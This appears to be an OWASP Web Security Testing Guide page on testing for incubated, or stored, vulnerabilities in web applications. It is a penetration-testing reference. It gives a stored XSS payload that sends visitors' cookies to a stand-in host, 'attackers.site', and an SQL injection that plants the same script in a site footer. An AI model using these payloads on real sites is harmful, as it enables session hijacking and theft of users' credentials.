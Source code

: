 ```yaml
---

layout: col-document
title: WSTG - Latest
tags: WSTG

---
```


{% include breadcrumb.html %}
# Testing for Incubated Vulnerability

|ID          |
|------------|
|WSTG-INPV-14|

## Summary

Also often referred to as persistent attacks, incubated testing is a complex testing method that needs more than one data validation vulnerability to work. Incubated vulnerabilities are typically used to conduct "watering hole" attacks against users of legitimate web applications.

Incubated vulnerabilities have the following characteristics:

- The attack vector needs to be persisted in the first place, it needs to be stored in the persistence layer, and this would only occur if weak data validation was present or the data arrived into the system via another channel such as an admin console or directly via a backend batch process.
- Secondly, once the attack vector was "recalled" the vector would need to be executed successfully. For example, an incubated XSS attack would require weak output validation so the script would be delivered to the client in its executable form.

Exploitation of some vulnerabilities, or even functional features of a web application, will allow an attacker to plant a piece of data that will later be retrieved by an unsuspecting user or other component of the system, exploiting some vulnerability there.

In a penetration test, `incubated attacks` can be used to assess the criticality of certain bugs, using the particular security issue found to build a client-side based attack that usually will be used to target a large number of victims at the same time (i.e. all users browsing the site).

This type of asynchronous attack covers a great spectrum of attack vectors, among them the following:

- File upload components in a web application, allowing the attacker to upload corrupted media files (JPEG images exploiting `CVE-2004-0200`, PNG images exploiting `CVE-2004-0597`, executable files, site pages with active component, etc.)
- Cross-site scripting issues in public forums posts (see [Testing for Stored Cross Site Scripting](02-Testing_for_Stored_Cross_Site_Scripting.md) for additional details). An attacker could potentially store malicious scripts or code in a repository in the backend of the web-application (e.g., a database) so that this script/code gets executed by one of the users (end users, administrators, etc). The archetypical incubated attack is exemplified by using a cross-site scripting vulnerability in a user forum, bulletin board, or blog in order to inject some JavaScript code at the vulnerable page, and will be eventually rendered and executed at the site user's browser --using the trust level of the original (vulnerable) site at the user's browser.
- SQL/XPATH Injection allowing the attacker to upload content to a database, which will be later retrieved as part of the active content in a web page. For example, if the attacker can post arbitrary JavaScript in a bulletin board so that it gets executed by users, then he might take control of their browsers (e.g., [XSS-proxy](http://sourceforge.net/projects/xss-proxy)).
- Misconfigured servers allowing installation of Java packages or similar web site components (i.e. Tomcat, or web hosting consoles such as Plesk, CPanel, Helm, etc.)

## Test Objectives

- Identify injections that are stored and require a recall step to the stored injection.
- Understand how a recall step could occur.
- Set listeners or activate the recall step if possible.

## How to Test

### Black-Box Testing

#### File Upload Example

Verify the content type allowed to upload to the web application and the resultant URL for the uploaded file. Upload a file that will exploit a component in the local user workstation when viewed or downloaded by the user. Send your victim an email or other kind of alert in order to lead him/her to browse the page. The expected result is the exploit will be triggered when the user browses the resultant page or downloads and executes the file from the trusted site.

#### XSS Example on a Bulletin Board

1. Introduce JavaScript code as the value for the vulnerable field, for instance `<script>document.write('<img src="http://attackers.site/cv.jpg?'+document.cookie+'">')</script>`
2. Direct users to browse the vulnerable page or wait for the users to browse it. Have a "listener" at `attackers.site` host listening for all incoming connections.
3. When users browse the vulnerable page, a request containing their cookie (`document.cookie` is included as part of the requested URL) will be sent to the `attackers.site` host, such as: `GET /cv.jpg?SignOn=COOKIEVALUE1;%20ASPSESSIONID=ROGUEIDVALUE; HTTP/1.1`
4. Use cookies obtained to impersonate users at the vulnerable site.

#### SQL Injection Example

Usually, this set of examples leverages XSS attacks by exploiting a SQL-injection vulnerability. The first thing to test is whether the target site has a SQL injection vulnerability. This is described in [Testing for SQL Injection](05-Testing_for_SQL_Injection.md). For each SQL-injection vulnerability, there is an underlying set of constraints describing the kind of queries that the attacker/pen-tester is allowed to do.

The tester then has to match the XSS attacks he has devised with the entries that he is allowed to insert.

In a similar fashion as in the previous XSS example, use a web page field vulnerable to SQL injection issues to change a value in the database that would be used by the application as input to be shown at the site without proper filtering (this would be a combination of an SQL injection and a XSS issue). For instance, let's suppose there is a `footer` table at the database with all footers for the web site pages, including a `notice` field with the legal notice that appears at the bottom of each web page. You could use the following query to inject JavaScript code to the `notice` field at the `footer` table in the database.

```sql
SELECT field1, field2, field3
FROM table_x
WHERE field2 = 'x';
   UPDATE footer
   SET notice = 'Copyright 1999-2030%20
       <script>document.write(\'<img src="http://attackers.site/cv.jpg?\'+document.cookie+\'">\')</script>'
   WHERE notice = 'Copyright 1999-2030';
```

Now, each user browsing the site will silently send their cookies to the `attackers.site`.

#### Misconfigured Server

Some web servers present an administration interface that may allow an attacker to upload active components of her choice to the site. This could be the case with an Apache Tomcat server that doesn’t enforce strong credentials to access its Web Application Manager (or if the pen testers have been able to obtain valid credentials for the administration module by other means).

In this case, a WAR file can be uploaded and a new web application deployed at the site, which will not only allow the pen tester to execute code of her choice locally at the server, but also to plant an application at the trusted site, which the site regular users can then access (most probably with a higher degree of trust than when accessing a different site).

As should also be obvious, the ability to change web page contents at the server, via any vulnerabilities that may be exploitable at the host which will give the attacker webroot write permissions, will also be useful towards planting such an incubated attack on the web server pages (actually, this is a known infection-spread method for some web server worms).

### Gray-Box Testing

Gray-box or white-box testing techniques will be the same as previously discussed.

- Examining input validation is key in mitigating against this vulnerability. If other systems in the enterprise use the same persistence layer they may have weak input validation and the data may be persisted via a `backdoor`.
- To combat the `backdoor` issue for client-side attacks, output validation must also be employed so tainted data shall be encoded prior to displaying to the client, and hence not execute.

## Tools

- [XSS-proxy](https://sourceforge.net/projects/xss-proxy)
- [OWASP Zed Attack Proxy (ZAP)](https://www.zaproxy.org/)
- [Burp Suite](https://portswigger.net/burp)
- [Metasploit](https://www.metasploit.com/)

## References

Most of the references from the Cross-site scripting section are valid. As explained above, incubated attacks are executed when combining exploits such as XSS or SQL-injection attacks.

### Advisories

- [CERT Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests](https://resources.sei.cmu.edu/library/asset-view.cfm?assetID=496186)
- [Blackboard Academic Suite 6.2.23 +/-: Persistent cross-site scripting vulnerability](https://cxsecurity.com/issue/WLB-2006080004)

### Whitepapers

- [Web Application Security Consortium "Threat Classification, Cross-site scripting"](http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml)
